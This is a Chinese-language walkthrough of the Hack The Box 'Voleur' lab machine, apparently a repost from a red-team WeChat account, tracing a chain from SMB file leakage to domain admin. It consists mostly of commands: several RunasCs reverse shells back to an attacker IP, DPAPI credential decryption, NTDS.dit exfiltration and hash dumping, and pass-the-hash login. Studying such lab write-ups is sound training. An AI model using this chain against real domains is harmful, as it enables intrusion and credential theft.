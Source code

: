 > **原文链接**: https://mp.weixin.qq.com/s?__biz=MzkwMzYyNzQ1NA==&mid=2247485727&idx=1&sn=25609c3a578571d401536bb534e05ae7

#  HTB 第八赛季Voleur靶机：从SMB到域控 (速通版)  
原创 红队安全圈  红队安全圈   2025-07-08 13:29  
  
   
  
![](https://mmbiz.qpic.cn/mmbiz_gif/5HsgFkdwV2IdFhJEZe3xn142fkub0qKjTM1ibSX2c5vSW1phLibySyU3giaJEUGXNbZt8vkFCt6D4qorttBWoOGZQ/640?wx_fmt=gif&from=appmsg "")  
  
hackthebox 第八赛季的新靶机 Voleur，需要熟悉SMB敏感文件泄露，Excel密码破解，kerberos票据，恢复删除用户，DPAPI提权，ntds解密，最终拿到域控权限。  
  
这篇文章只写主要攻击流程，有经验的师傅们可以跟着速通，如果希望有详细writeup请在评论区留言哦  
##### 靶机地址  
  
https://app.hackthebox.com/machines/670  
##### 适合读者  
  
√ 红队渗透测试人员  
  
√ 企业安全运维人员  
  
√ CTF竞赛战队  
  
√ 想掌握链式攻击思维的安全从业者  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/5HsgFkdwV2KH0sFeL9PSSricmstwaAIrbCpdVp8vYDJCiax1Mu9HfBVYyoM1GoakInOYY9YlakPVMHufosxFs67A/640?wx_fmt=other&from=appmsg "null")  
  
### User flag  
  
smb 探测  

```
nxc smb dc.voleur.htb -u 'ryan.naylor' -p 'HollowOct31Nyt' -k -M spider_plus -o DOWNLOAD_FLAG=True
```

  
Excel破解  
  
破解出来是个密码本  

```
office2john Access_Review.xlsx > xlsx.hash
john --wordlist=/usr/share/wordlists/rockyou.txt xlsx.hash
```

##### svc_winrm 用户  
  
kerberos客户端配置  

```
vi /etc/krb5.conf
```

  

```
[libdefaults]
    default_realm = VOLEUR.HTB
    dns_lookup_realm = false
    dns_lookup_kdc = false
    ticket_lifetime = 24h
    forwardable = true
    rdns = false

[realms]
    VOLEUR.HTB = {
        kdc = DC.voleur.htb
        admin_server = DC.voleur.htb
    }

[domain_realm]
    .voleur.htb = VOLEUR.HTB
    voleur.htb = VOLEUR.HTB
```

  
登录得到第一个 flag  

```
impacket-getTGT 'voleur.HTB/svc_winrm:AFireInsidedeOzarctica980219afi'
export KRB5CCNAME=svc_winrm.ccache
evil-winrm -i dc.voleur.htb -r voleur.htb
```

  
![](https://mmbiz.qpic.cn/mmbiz_jpg/5HsgFkdwV2KH0sFeL9PSSricmstwaAIrbTNSlnEKHUl0HPfY5e1UIheic2VBia9OgyfZwOgmofdECQUyDMHOc377w/640?wx_fmt=other&from=appmsg "null")  
  
### Root flag  
##### Todd.Wolfe 用户  
  
反弹 svc_ldap shell  

```
.\RunasCs.exe svc_ldap M1X.....T5Vn cmd.exe -r 10.10.14.10:4446
```

  
查找并恢复删除的用户  

```
powershell
Get-ADObject -Filter 'isDeleted -eq $true' -IncludeDeletedObjects
Restore-ADObject -Identity '1c6b1deb-c372-4cbb-87b1-....69db'
```

  
继续反弹shell 得到 Todd.Wolfe 权限  

```
.\RunasCs.exe Todd.Wolfe Nig.....on14 cmd.exe -r 10.10.14.10:4447
```

##### jeremy.combs 用户  
  
找到 DPAPI  
  
   
  

```
C:\IT\Second-Line Support\Archived Users\todd.wolfe\AppData\Roaming\Microsoft\Protect\S-1-5-21-3927696377-1337352550-2781715495-1110\08949382-134f-4c63-b93c-ce52efc0aa88
C:\IT\Second-Line Support\Archived Users\todd.wolfe\AppData\Roaming\Microsoft\Credentials\772275FAD58525253490A9B0039791D3
```

  
  
   
  
解密，得到 jeremy.combs 用户密码  

```
impacket-dpapi masterkey -file 08949382-134f-4c63-b93c-ce52efc0aa88 -password 'NightT1meP1dg3on14' -sid S-1-5-21-3927696377-1337352550-2781715495-1110
impacket-dpapi credential -f 772275FAD58525253490A9B0039791D3 -key 0xd2832547d1d5e0a01ef271ede2d299248d1cb0320061fd5355fea2907f9cf879d10c9f329c77c4fd0b9bf83a9e240ce2b8a9dfb92a0d15969ccae6f550650a83
```

##### 域管  
  
反弹shell 拿到 jeremy.combs 交互权限  

```
.\RunasCs.exe jeremy.combs qT3V9...W4m cmd.exe -r 10.10.14.10:4448
```

  
找到WSL私钥和备份文件  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/5HsgFkdwV2KH0sFeL9PSSricmstwaAIrbX2icSyF3yUbFzWjgIhe3XPN7gpE6E6GtUlicFmJIT34LXbZmqxPMnhbw/640?wx_fmt=other&from=appmsg "null")  
  
  
拖回本地发现是域控的ntds和system等文件  

```
scp -i id_rsa -P 2222 -r &#34;svc_backup@dc.voleur.htb:/mnt/c/IT/Third-Line Support/Backups&#34; ./
impacket-secretsdump -ntds ntds.dit -system SYSTEM LOCAL
```

  
![](https://mmbiz.qpic.cn/mmbiz_jpg/5HsgFkdwV2KH0sFeL9PSSricmstwaAIrb35NSQEtnfQwia3IpolALE1SrQa7FRqetkumCvwQGABrt3rOPpqLqCoA/640?wx_fmt=other&from=appmsg "null")  
  
  
票据登录 administrator  

```
impacket-getTGT -hashes aad3b435b51404eeaad3b435b51404ee:e656e07c56d831611b577b160b259ad2 'voleur.HTB/administrator'
export KRB5CCNAME=administrator.ccache
evil-winrm -i dc.voleur.htb -r voleur.htb
```

  
![](https://mmbiz.qpic.cn/mmbiz_jpg/5HsgFkdwV2KH0sFeL9PSSricmstwaAIrbDpnJKls5TG5Uy3yhaiaMTnH3mYZNIayHg8wldF8iaU5h0w6T2rTaNjkg/640?wx_fmt=other&from=appmsg "null")  
  
  
   
  
欢迎关注   
红队安全圈  
  
  
如果文章对你有帮助，欢迎给个  
一键四连吧  
  
![](https://mmbiz.qpic.cn/mmbiz_gif/5HsgFkdwV2J3Ykl5xDepRoqkSBlQKAEIEx0DHiaQHx6sBYGNDAI6Eia2ZnZLLsHzD8yxEGEVbrzzTL4Shrf7iaWWw/640?wx_fmt=gif&from=appmsg "")  
  
